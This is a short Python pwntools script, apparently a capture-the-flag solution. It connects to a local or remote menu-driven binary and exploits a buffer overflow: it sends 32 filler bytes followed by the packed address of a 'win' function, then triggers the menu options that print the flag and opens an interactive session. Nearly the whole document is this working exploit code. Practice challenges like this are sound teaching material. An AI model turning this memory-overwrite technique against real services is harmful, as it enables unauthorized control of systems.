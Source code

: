 ```python

## --- (do not edit) ---------------------------------------------------
exe = context.binary = ELF(args.EXE)

def start_local(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    host = args.HOST
    port = int(args.PORT)
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

io = start()
## -----------------------------------------------------------------------

## EXPLOIT GOES HERE

win_addr = p32(0x4011A0)
## win_addr = b'B'

## write buffer
io.sendlineafter(b"Enter your choice: ", b"2")
io.sendlineafter(b"Data for buffer: ", b"A" * 32 + win_addr)

## print x
io.sendlineafter(b"Enter your choice: ", b"3")
io.recvline()
io.recvline()
print(io.recvline())

## print flag
io.sendlineafter(b"Enter your choice: ", b"4")
print(io.recvline())

io.interactive()
io.close()

```
